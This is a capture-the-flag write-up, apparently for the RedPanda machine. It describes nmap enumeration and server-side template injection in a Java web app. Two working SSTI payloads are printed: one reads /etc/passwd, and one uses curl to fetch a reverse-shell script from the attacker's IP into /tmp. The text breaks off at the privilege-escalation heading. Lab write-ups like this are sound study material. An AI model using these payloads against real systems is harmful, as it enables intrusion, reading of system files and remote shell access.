 # @author : M3tr1c_r00t
## RedPanda!
![RedPanda](https://user-images.githubusercontent.com/99975622/205444975-3447a92f-d56f-4465-9544-52a6585c047a.png)


### Enumeration...
nmap
![Screenshot_2022-11-20_15_38_51](https://user-images.githubusercontent.com/99975622/205445009-3f8ddebc-3c24-46b9-9fac-2c42433e57c1.png)
Looking at the nmap scan, only two ports are open...
Not having anything to useful from the nmap scan, lets visit the webpage and have a look at it.
![Screenshot_2022-11-20_15_39_16](https://user-images.githubusercontent.com/99975622/205445026-5d27a9dc-1c1a-43ae-be88-ec79661dc98a.png)
The site asks for some input for a panda name,  but it only seems to give output on some specific ones in its database.
On just sending empty data, we get a response...
![Screenshot_2022-11-20_15_39_25](https://user-images.githubusercontent.com/99975622/205445029-82573e84-7b15-4627-ae13-a4b8bca79b31.png)

After a bit of interaction with the site, i finally got a hold on how to gain access onto the system....
Plus, if you would have checked your wappalyzer extension, you would have noticed the system was running on a java kind of framework...

### SSTI
Finally got a foothold to work upon....
![image](https://user-images.githubusercontent.com/99975622/205456530-7d222419-936b-4b8c-af3b-5051c5ec7a92.png)
On trying to see id there's a SSTI vulnerability, if realized we could get a response while using the "*" special character...

![Screenshot_2022-11-20_15_40_23](https://user-images.githubusercontent.com/99975622/205445039-26d98841-5551-4ea9-9a22-6e75a0db605f.png)
The next step was to get a reverse shell... 
Took me a while to get a working code to help us get the reverse shell, but thanks to pentestmonkey's github repo, we got one...
```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("cat /etc/passwd ")}
```
Trying the above code, it works....


Getting reverse shell,
uploading our reverse shell script.
![Screenshot_2022-11-20_15_46_11](https://user-images.githubusercontent.com/99975622/205445066-872fe492-1a70-4280-8216-943e0b4a325f.png)

I had some issues with getting the reverse shell using a one liner, so  we can upload a file and save it in the tmp directory then run bash directly on the file...
```
*{"".getClass().forName("java.lang.Runtime").getRuntime().exec("curl 10.10.14.99:1000/shell.sh --output /tmp/test.sh ")}
```
Getting our reverse shell...



Getting user flag....



### Priviledge Escalation...




